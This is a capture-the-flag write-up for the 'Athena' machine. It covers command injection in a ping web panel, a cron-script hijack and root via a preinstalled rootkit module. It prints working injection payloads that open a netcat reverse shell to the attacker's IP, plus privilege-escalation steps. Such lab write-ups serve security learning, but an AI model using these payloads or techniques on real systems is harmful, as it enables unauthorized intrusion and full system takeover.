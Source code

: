 # Athena

### Athena
Nmap scan shows ports 22,80, 139 and 445 open. SMB server allows anonymous login: <br />
![image](https://github.com/user-attachments/assets/0b2e85c0-a8c3-44af-9ab6-8006eeaa0ea7)<br />

    Dear Administrator,
    
    I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel
    
    Yours sincerely,
    
    Athena
    Intern
That directory contains a tool to ping another IP address. Of course the first thing I think about is command injection, assuming it's executing the system `ping` command. If I try a simple payload like the following: <br />
![image](https://github.com/user-attachments/assets/7ed4e9fb-036f-42b9-8e17-083a2f0ba861)<br />
I get redirected to a page that says `Attempt hacking!`. After some trial and error, I find that the following payload works `$(nc 10.11.85.53 9001)`, since I actually receive a connection. That's it then, I have command execution and can spawn a reverse shell. I do that using the following payload `$(busybox nc 10.11.85.53 9001 -e sh)`. <br />
Now I enumerate the system and find something interesting inside `/usr/share/backup`, a file called `backup.sh`, owned by www-data (me) and belonging to the group called `athena`. This is very likely a cronjob, even if I cannot see it in the `/etc/crontab` file. To actually verify that it's a cronjob I can use `pspy64`:<br />
![image](https://github.com/user-attachments/assets/27b01ca9-4777-4415-aa68-136f49739e5d)<br />
Since the file is owned by me, I can just add a oneliner to spawn a reverse shell as the user `athena`. If I run `sudo -l` I get this: <br />
![image](https://github.com/user-attachments/assets/eb91d225-8c1e-49ce-b363-f13b0ea71f91)<br />
`venom.ko` is a well known rootkit, which in this case was already installed in the system.  So first I execute `sudo /usr/sbin/insmod /mnt/.../secret/venom.ko`.<br />
This rootkit allows you to become root by running a command `kill 64 <pid>` to whatever PID owned by athena. In particular this rootkit was modified to do that when executing `kill 57 <pid>`.
![image](https://github.com/user-attachments/assets/f5bd42ed-efb6-40eb-b889-41993f701b96)<br />
Just find a valid PID you can kill and become root!
